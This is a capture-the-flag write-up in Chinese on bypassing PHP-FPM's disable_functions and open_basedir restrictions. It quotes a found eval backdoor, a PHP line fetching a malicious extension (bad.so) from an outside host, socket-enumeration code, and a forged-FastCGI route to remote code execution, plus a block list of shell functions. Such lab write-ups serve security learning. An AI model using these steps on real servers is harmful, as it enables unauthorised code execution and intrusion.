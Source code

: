 # Wallbreaker (not very) Hard

[English Version](https://github.com/w181496/CTF/blob/master/0ctf2019_final/Wallbreaker\ \(not very\)\ Hard/README_en.md)

## 題目分析

- 這題基本上跟 0CTF 2019 初賽那題環境一樣:
    - PHP-FPM
    - PHP 7.2
    - 更嚴格的 `disable_functions`
        - `pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,putenv,proc_open,passthru,symlink,link,syslog,imap_open,dl,system,mb_send_mail,mail,error_log`
        - 這次不能再用`putenv`了:p
    - `open_basedir: /var/www/html:/tmp`

![](https://github.com/w181496/CTF/blob/master/0ctf2019_final/Wallbreaker\ \(not very\)\ Hard/phpinfo.png)

- 首先這題告訴我們有個backdoor，但要自己去找
- 踹了一下發現有`.index.php.swp`
- backdoor key: `eval($_POST["anfkBJbfqkfqasd"]);`
- 後面就開始繞`disable_functions`和`open_basedir`

## Exploit

- 在初賽時，我偽造 fastcgi 去繞過 `open_basedir` (把設定寫掉)
- 但其實我後來發現可以透過 extension 直接 RCE
- 只要把 `PHP_ADMIN_VALUE` 中的 `extension_dir` 和 `extension` 寫掉就可以載入任意 extension
- 所以我們第一步就是上傳能執行 Command 的 extension:

```php
file_put_contents("/tmp/bad.so", file_get_contents("http://kaibro.tw/bad.so"));
```

- 在偽造 FastCGI Protocol 之前，我們必須先找出他的 UNIX Socket path (如果是走 tcp，就要找到 port):

```php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/php/*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///v??/run/php/.*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}<br/>";
}
```

=> `/var/run/php/U_wi11_nev3r_kn0w.sock`

- 接著開始偽造 FastCGI Protocol 寫掉設定，這邊可以參考 [payload.php](https://github.com/w181496/FuckFastcgi/blob/master/index.php)
    - 把裡面對應的設定改掉就行

- RCE Get!
- `/readflag` => `flag{PHP-FPM is awesome and I think the best pratice is chroot your PHP}`

